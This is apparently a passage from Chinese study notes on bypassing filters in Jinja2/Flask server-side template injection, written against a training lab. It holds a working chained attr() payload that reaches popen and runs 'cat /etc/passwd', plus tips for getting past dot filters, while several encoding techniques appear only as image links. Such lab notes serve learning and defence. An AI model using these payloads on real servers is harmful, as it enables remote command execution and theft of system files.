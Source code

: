 > * 使用request方法
>
> GET提交：URL?x1=__class\_\_
>
> POST提交：code={{()|attr(request.args.x1)}}
>
> 在POST中过滤了就在GET中绕过

```py
POC:
    GET:
    http://172.31.130.66:8006/flasklab/level/6?x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__
    POST:
    code={{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(117)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)('popen')('cat /etc/passwd')|attr('read')()}}
```

> * 使用Unicode编码
>
>   ![image-20240408172810915](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408172810915.png)

> * 使用十六位编码
>
>   ![image-20240408172831277](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20240408172831277.png)

> * 格式化字符串
>
>   ![image-20240408172911404](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20240408172911404.png)

## 中括号绕过点过滤

```py
点'.'被过滤
1. 用中括号[]代替点:
    Python语法除了可以用点'.'来访问对象属性外，还可以使用中括号'[]'
    {{().__class__}} == {{()['__class__']}} # 注意引号
2. 用attr()绕过:
    payload语句中不会用到点'.'和中括号'[]'
```
